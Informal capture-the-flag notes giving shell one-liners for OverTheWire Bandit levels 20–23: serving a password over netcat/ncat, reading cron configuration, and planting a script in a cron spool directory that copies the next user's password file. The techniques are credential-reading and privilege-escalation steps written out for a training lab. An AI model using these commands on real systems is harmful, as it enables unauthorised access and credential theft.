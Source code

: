 = 2025年04月01日

== overthewire

=== level 20

you need to create a tcp server connection that send a password.
that password must be equal to bandit20's password

oh i accidentally found someone's solution on the server: `ncat -e /bin/echo <bandit20 password> -k -l 10235`

he should've used `/bin/cat /etc/bandit_pass/bandit20`.

but i like this solution more since it doesn't depend on nmap:

[, bash]
----
ssh -t bandit20@bandit.labs.overthewire.org -p 2220 "nc -lp 6969 < /etc/bandit_pass/bandit20 & ./suconnect 6969 | grep -E '^[A-Za-z0-9]{32}\$'"-
----

I had to use `^` and `$` since i only want the line with the password

=== level 21

i am using fish shell, i like to do it like this.

i have my passwords saved on a file as well, but i won't be making it public.

the goal is to read the script of a cronjob and find the flag in a temp directory.

the path of the flag is hardcoded.

[, fish]
----
export LEVEL=21; ssh -t bandit$LEVEL@bandit.labs.overthewire.org -p 2220 "awk '/* bandit22/ {print \$7}' /etc/cron.d/cronjob_bandit22 | xargs awk '/cat/ {print \$4}' | xargs cat | grep -Eo '[A-Za-z0-9]{32}'"
----

=== level 22

this level is the same as level 22 except it's using weak form of obscurity by using md5 hash on a sentence.

[, fish]
----
export LEVEL=22; cat level(math $LEVEL - 1); ssh -t bandit$LEVEL@bandit.labs.overthewire.org -p 2220 "cat /tmp/\$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)"
----

=== level 23

i stole someone's terminal commands lmao

[, bash]
----
stty raw -ctlecho -echo; cd /home/bandit23 >/dev/null 2>&1; if [ $(date +%S) -lt 3 ]; then sleep 2; fi; s=$(mktemp --tmpdir=/var/spool/bandit24/foo); t=$(mktemp); b='!'; chmod 777 $t; echo -e "#$b/bin/sh\ncat /etc/bandit_pass/bandit24 > $t" > $s; chmod 777 $s; sleep 60; cat $t; rm -f $t
----

just to make my automation script work.

although using netcat already works as is, but with python's paramiko, it's 50/50

here's the modified stolen commands:

[, fish]
----
export LEVEL=23; cat level(math $LEVEL - 1); ssh -t bandit$LEVEL@bandit.labs.overthewire.org -p 2220 's=$(mktemp --tmpdir=/var/spool/bandit24/foo); t=$(mktemp); chmod 777 $t; echo -e "cat /etc/bandit_pass/bandit24 > $t" > $s; chmod 777 $s; while [[ ! -s "$t" ]]; do sleep 1; done; cat $t | grep -Eo \'[A-Za-z0-9]{32}\''
----

`mktemp --tmpdir` is needed to set the proper permissions otherwise using `chmod` will just cause an error.

i used a while loop so that there won't be a reason to wait 60s
